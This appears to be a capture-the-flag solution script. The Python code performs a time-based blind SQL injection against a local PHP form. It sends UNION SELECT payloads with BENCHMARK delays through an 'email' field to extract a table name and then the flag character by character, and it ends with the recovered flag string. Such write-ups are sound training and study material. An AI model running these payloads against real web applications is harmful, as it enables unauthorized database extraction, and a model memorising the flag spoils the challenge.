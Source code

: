 
```python
import string, requests

# Extract table name
QUERY = "' UNION SELECT null,null,(IF(BINARY SUBSTRING((SELECT table_name FROM information_schema.tables where TABLE_SCHEMA = database() and table_name != 'info'),{pos},1) = BINARY '{char}',BENCHMARK(5000000,ENCODE('MSG','by seconds')),null)) FROM info; -- -"
# Extract flag
QUERY = "' UNION SELECT null,null,(IF(SUBSTRING((SELECT col_1 from (SELECT 1 as col_1 union select * from get_point limit 1 offset 2) x_table),{pos},1) = BINARY '{char}',BENCHMARK(5000000,ENCODE('MSG','by seconds')),null)) FROM info; -- -"
URL = "http://localhost:8007/index.php"
data = {
    "name": "whatever",
    "email": QUERY
}
list_chars = string.printable.replace('%','')
output = ""
pos = 0
while True:
    pos += 1
    for char in list_chars:
        data = {
            "name": "whatever",
            "email": QUERY.format(char=char, pos=str(pos))
        }
        request = requests.post(URL,data=data)
        if (request.elapsed.total_seconds() > 0.5): # True
            output += char
            print("[*] Output: " + output + "...")
            break

# PTITCTF{u_Kn0w_7ha7_15_5ql_71M3ba53d_1nJ3c710n}
```
